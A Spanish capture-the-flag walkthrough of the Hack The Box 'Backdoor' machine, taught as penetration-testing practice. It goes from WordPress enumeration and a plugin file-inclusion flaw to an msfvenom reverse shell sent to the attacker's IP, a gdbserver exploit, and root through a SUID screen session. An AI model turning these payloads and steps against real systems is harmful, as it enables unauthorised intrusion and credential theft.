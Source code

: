 #  BACKDOOR MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/1.png)


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 - v -n 10.10.11.125 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p22,80,1337 -sV -sC 10.10.11.125 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/3.png)

## EXPLOTACION

veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/4.png)

La pagina no nos dice mucho pero estamos ante un wordpress, lo sabemos gracias a wapalyzer. Enumeremos todo lo que podamos con **wpscan**:

```bash
wpscan --url http://10.10.11.125/ --enumerate u,at,ap
```

supuestamente:

- no tiene plugins instalados.
- XML-RPC esta habilitado.
- el tema es Twenty Seventeen.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/5.png)

muy bien podemos tirar de XML-RPC para enumerar usuarios e intentar un ataque de fuerza bruta al login y explotar el tema que tiene, tomara mucho tiempo pero lo podemos intentar. Otra cosa es que podemos comprobar si de verdad no tiene algun plugin y que sea vulnerable. Consultemos la siguiente ruta: **http://10.10.11.125/wp-content/plugins/** en esa ruta se encuentran los `plugins`.

**NOTA: esa es la ruta que normalmente se guardan plugins, para ver temas puede consultar http://10.10.11.125/wp-content/themes/"el tema que puede existir"**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/6.png)

hay un plugin llamado **ebook-download**, antes de tirar por XML-RPC veamos si este plugin es vulnerable a algo.

Al realizar esa busqueda vi que es vulnerable a LFI:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/7.png)

veamos si es cierto:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/8.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/9.png)

vemos credenciales de base de datos en ese archivo, el puerto 3306 no esta abierto hacia afuera asi que poco podemos hacer con eso, pero el LFI funciona.

una cosa que podemos hacer es ver informacion acerca del sistema a traves de la ruta **/proc**, [aqui](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/) hay informacion muy util hacerca de ello. 

a traves de **/proc/\[PID\]/cmdline** podemos enumera todo lo que se utilizó para invocar el proceso. Esto a veces contiene rutas útiles a los archivos de configuración, así como nombres de usuario y contraseñas. Hagamoslo con burpsuite para realizar un ataque de tipo **intruder** iterando los posibles PID y veamos si alguno nos da informacion.

nuestra PoC para ver si tenemos respuesta sera intentar ver en la respuesta del burp el **/proc/version** que nos dira la version del sistema operativo, cuando eso pase podemos cambiar por **/proc/PID/cmdline**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/10.png)

vemos que reemplazando por **/proc/version** no vemos nada, aumentemos mas **../../../../** y veamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/11.png)

ahora si, podemos reemplazar por **/proc/PID/cmdline** y mandarlo al repeater usando un ataque de tipo **sniper** con una lista de numeros del **700** al **11000** por ejemplo:

ordenando por el **length** vemos una respuesta interesante con el PID **854** y **852**

854:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/12.png)

vemos que se esta ejecutando un gdbserver en el puerto 1337 localmente y ese puerto figura como abierto en el servidor.

852:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/13.png)

esta ejecutando screen, esto sirve para iniciar una sesión de pantalla y luego abrir cualquier cantidad de ventanas (terminales virtuales) dentro de esa sesión. Los procesos que se ejecutan en Pantalla continuarán ejecutándose cuando su ventana no esté visible, incluso si se desconecta.

Se esta ejecutadno con el para metro **-dmS root**:

- **-d:** no iniciar la pantalla (screen).
- **-m:** junto al parametro -d hace que la screen vaya como a segundo plano.
- **-S:** definir un nombre a la sesion en este caso **root**.

entonces por donde empezar? Veamos si hay algun exploit para **gdbserver**.

Damos con este [exploit](https://www.exploit-db.com/exploits/50539)

probemoslo esto es lo que necesitamos hacer:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/14.png)

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.115 LPORT=4545 PrependFork=true -o rev.bin
```

```bash
python3 gdb_exploit.py 10.10.11.125:1337 rev.bin 
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/15.png)

tenemos RCE. Hagamos un tratamiento de la TTY:

```bash
script /dev/null -c bash
Ctrl Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

y podemos ver la primera flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/16.png)

## ELEVACION DE PRIVILEGIOS

enumerando un poco el sistema veamos permisos SUID:

```bash
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/17.png)

vemos que el binario **screen** se puede ejecutar como root. buscando un poco en google encontre [esta pagina](https://serverfault.com/questions/720357/ubuntu-allow-users-access-to-roots-screen-command-also-restrict-which-screens)

explica como ejecutar una sesion a partir del nombre de usuario y nombre de sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/18.png)

si recordamos un proceso os dio informacion acerca de **screen** y nos indicaba que creaba una nueva sesion con el nombre de la sesion y como este binario es SUID intentemos ejecutar la sesion:

```bash
screen -x root/root
```

usuario root y nombre de session root (como se mostraba en el proceso)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/19.png)

y listo, somos root y podemos ver la siguiente flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BACKDOOR/images/20.png)

